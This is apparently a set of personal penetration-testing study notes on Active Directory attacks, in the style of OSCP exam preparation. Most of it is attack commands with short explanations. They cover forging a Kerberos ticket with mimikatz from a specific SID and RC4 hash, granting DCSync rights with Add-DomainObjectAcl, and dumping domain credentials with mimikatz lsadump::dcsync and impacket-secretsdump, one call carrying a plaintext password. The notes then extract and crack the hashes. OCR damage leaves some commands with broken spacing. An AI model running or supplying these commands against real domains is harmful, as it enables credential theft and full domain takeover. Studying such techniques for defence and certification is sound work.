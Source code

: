 ##### Steps:  
```
iwr-UseDefaultCredentials http://web04 (trying to access)

401Unauthorized?

kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin (/ptt to inject forged ticket to memory)

klist

iwr - UseDefaultCredentials http://web04 

We can use (iwr -UseDefaultCredentials http://web04).Content to view source code
```

## Add Exploit DCSync Rights
Do you have WriteDACL to a domain? Give DCSync rights to an unprivileged domain user account:  
```
Add-DomainObjectAcl - TargetIdentity "DC=burmatco,DC=local" -PrincipalIdentity useracct1 -Rights DCSync
```
WORKED?
```
impacket-secretsdump oscp.exam\offsec:password@ip
    
cat hash | grep::: |awk-F:'{print$4}' > hash.out
   
Use crackstation or hashcat -m 1000 --user
```

## DC Sync (Uses DRSUAPI)
More DC are used in Prod to provide redundancy and it uses Directory Replication Service (DRS) Remote Protocol for this by requesting an update for specific object or user account. DC receiving that update does not check whether that came from another DC. It checks only SID and priv.  

Rights - Replicating Directory Changes, Replicating Directory Changes All, and Replicating Directory Changes in Filtered Set (these should be there by default it will be for domain admins, enterprise admins, etc.,).
    
If we have access to these accounts or above rights are set we can perform DC-Sync attack by impersonating a DC. 
Note: This allows us to request any user credentials from the domain  

##### FOR WINDOWS:
    
```
.\mimikatz.exe  
lsadump::dcsync/user:corp\dave(wecangetanyusercredshere) lsadump::dcsync/user:beyond\Administrator
```
##### FOR LINUX:  
```
impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70 (We'll get NTLM hash)
```
